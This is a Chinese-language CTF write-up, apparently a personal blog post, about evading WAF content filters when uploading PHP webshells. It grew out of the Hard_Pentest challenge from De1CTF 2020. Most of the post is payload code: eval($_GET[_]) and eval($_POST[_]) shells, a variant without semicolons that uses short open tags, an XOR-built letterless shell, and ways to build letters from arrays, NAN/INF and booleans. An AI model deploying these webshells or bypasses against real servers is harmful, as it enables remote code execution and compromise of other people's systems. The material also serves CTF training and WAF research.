 ```yaml
---
title: 从一道题到PHP Shell WAF绕过
tags: 
    - CTF
date: 2020/5/10
---
```


## 起因

De1CTF 2020 中有一道渗透题Hard_Pentest，第一步是要上传一个php文件shell，而这个上传点当然是有waf的
经过fuzz，确认能够使用的字符如下：
`!"#$%'()*+,-./:<=>?@[\]_{ }`
我们能发现可用的字符中无字母，无数字，更重要的是无分号

## 这道题

在这道题中，通过尝试我们能发现可以通过short open tag替代分号的作用：

```php
<?=$a=1?><?=$a?>
// 1
```

也就是说，拿一个经典的无数字字母shell来稍加修改（`replace(';', '?><?=')`）即可构造出这样一个shell  
但是我自然不会善罢甘休，想要总结一下**各个版本**中shell waf的绕过方式  
下面我们从几个初始状态开始，逐步缩减可用的字符集，看看不一样的绕过方式

### 说明

此处对下一部分如何归类与标注标题做一下简单的说明  
我将从两个初始状态开始（无字母、白名单`0b`与无字母、黑名单`0w`）向别的状态转移
当然b与w分别代表blacklist与whitelist  
当状态发生转移时，将在状态代号（如`0b`）后附加一个点（.）并添加新的状态代号，比如`0b.0`, `0b.1`  
像上面那样同以`0b.`开头的状态说明这两个状态都是由`0b`状态转移而来

## Webshell Bypass

### root strings.printable

这是一个普通的webshell：

```php
<?php
eval($_GET[_]);
eval($_POST[_];?>
```

让我们先ban掉一些普通的字符吧，先拿方括号开刀

### root.0 ban掉[]

```php
<?php
eval($_GET{_});
eval($_POST{_};?>
```

让我们读一读手册

```markdown
https://www.php.net/manual/en/language.types.array.php
> Note:
> Both square brackets and curly braces can be used interchangeably
> for accessing array elements (e.g. `$array[42]` and `$array{42}` will
> both do the same thing in the example above).

As of PHP 5.4 it is possible to array dereference the result of a
function or method call directly. Before it was only possible using
a temporary variable.

As of PHP 5.5 it is possible to array dereference an array literal.
```

### root.1 ban掉分号

这个好办，上面已经给出了解决方案，在此例中只要去掉分号就好了

```php
<?php
eval($_GET[_])?><?php
eval($_POST[_]?>
```

### root.2 ban掉引号

你在上面见到引号了么？

### root.3 ban掉大小写字母

这样的shell一开始由p师傅（ORZORZORZORZORZORZ）发布在[博客](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)中，后来又有一篇[提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)讨论了php7下与unix glob引出的无字母webshell的利用。

首先我们要想怎么能通过字符串来取到对应的变量

从[PHP5.3.0起](https://www.php.net/manual/en/language.oop5.basic.php#:~:text=as%20of%20PHP%205.3.0)，字符串变量可以被当作函数直接调用，从PHP7开始这个字符串甚至不需要赋给一个单独的变量

```php
$x="phpinfo";$x();
```

也就是说如果我们能够利用某些方式通过别的字符构造出函数名，从而进行调用

p师傅的这篇博客中介绍了两种办法：

### root.3.w 无字母，白名单

首先要彻底没有字母，除非他已经帮你把php tag打开了（在eval里），不然一定是开着short open tag的。

PHP5.4.0起，`<?=`短开标签是一直可用的。虽然输出的垃圾信息多了一点但是不影响它好用啊（  
当然，为了更短的长度，short open tag选项打开的时候还是尽量用`<?`更舒适。

总之，要解决白名单，当务之急是拓展可用的字符。

php的"."字符串拼接符号是一个绝妙的将对象转为字符类型的工具。只要有了"."就可以构造出很多字符。

### root.3.w.0 Array

```php
<?$_=[];$_.=0;?> // .=[]，.=''，.=0/0，随便什么都行
<?=$_[3]?> // a
<?=$_+++$_+++$_+++$_++?> // 以此类推能拿到a-z
<?=$_[0]?> // A，同理能拿到A-Z
```

通过连加的方式可以缩短payload长度（谭浩强警告）

### root.3.w.1 NAN, INF (ANIF)

自**PHP7**以来，为了[遵从IEEE规范](https://www.php.net/manual/en/migration70.incompatible.php#migration70.incompatible.integers.div-by-zero)，0/0与1/0返回的是常量`float(NAN)`与`float(INF)`。没错，它们在转字符串的时候还就是`"NAN"`与`"INF"`。那么有了A、N、I、F四个字符我们能够构造出那些字符呢？

所有字符。

PHP函数实际上是[不区分大小写](https://www.php.net/manual/en/functions.user-defined.php#:~:text=Function%20names%20are%20case-insensitive)的。所以我们可以。。。

`TOLOWER`！这样我们就能构造出大小写所有字母了。有了字母我们当然可以进一步构造出所有字符。

### root.3.w.1.0 连数字也没有怎么办

true和false在php里是1和0
也就是说`true/false == INF`，`false/false == NAN`
构造出true和false那还不简单

```text
[]>[] == false
[[]]>[] == true
```

只要让你闭合tag你就有生存空间

### root.3.w.3 ban掉"." (?存疑)

如果没了字符串拼接符号，也就是缺少了一大obj->str的途径，那么还有没有可能构造出额外的字符呢？

### root.3.b 无字母，黑名单

黑名单就好玩了，用什么字符都可以，那么只需要补齐题目ban掉的那些字符即可。当然对于非强迫症而言**有可能**只需要补齐一部分字符就能做出题了。

由于php只支持256单字节字符，很多unicode字符（比如中文）的长度大于1（`strlen("啊")===3`），也就是说我们实际上是能“切”出一部分的值拿来进行运算的（`"啊"[0] === "\xe5"`）。具体为何请参考unicode表。  
在实际操作中，用汉字切与直接输入不可见字符没有本质的区别，但更直观一些（至少你能看见）

有一点就是对字符串位运算实际上不需要一个个字符串拼接。PHP会逐字节将两侧的字符串喂给位运算，得到新的字符串。

### root.3.b.x 异或

```php
<?php
$_="`{{{"^"?<>/"; // _GET
${$_}[_](${$_}[__]);
```

### root.3.b.r 取反与或非

略，见p师傅博客与各大搜索引擎

### root.4 ban掉一些标识符

### root.4.0 进制转换

`base_convert`函数提供2-36进制的转换，可以轻松提供数字到`a-z`字母的转换。
`dechex`也可以通过数字获得`a-f`的值

### root.4.1 数学函数

由于很少碰到，不展开讲了。但是见到标题应当能想到该做什么了。

## -1

这里仅对一些可能的webshell绕**内容**waf方式进行了微小的总结。其实不难发现每个绕waf的技巧都来源于php自身的动态性以及对**字符串**的各种奇妙操作。  
文中大部分跨版本不兼容的地方都进行了php文档链接的标注，以供参考。这也是本文之所以存在的一大理由。
